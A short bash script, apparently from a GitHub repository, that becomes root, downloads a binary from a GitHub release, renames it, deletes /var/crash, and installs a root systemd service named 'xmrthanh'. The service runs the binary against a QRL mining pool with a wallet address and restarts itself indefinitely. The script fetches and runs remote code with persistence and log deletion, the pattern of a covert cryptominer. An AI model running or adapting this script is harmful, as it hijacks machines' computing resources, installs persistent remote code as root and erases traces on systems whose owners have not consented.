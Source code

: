 #!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o sg.qrl.herominers.com:1166 -u Q010500e5f9d9e601b1578b56b888de8bdcd8b252f7ab2a39b6a0ffc655d38c534cbaf4f18b3cbf -p 1stt099 -a rx/0 -k -t 13
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top
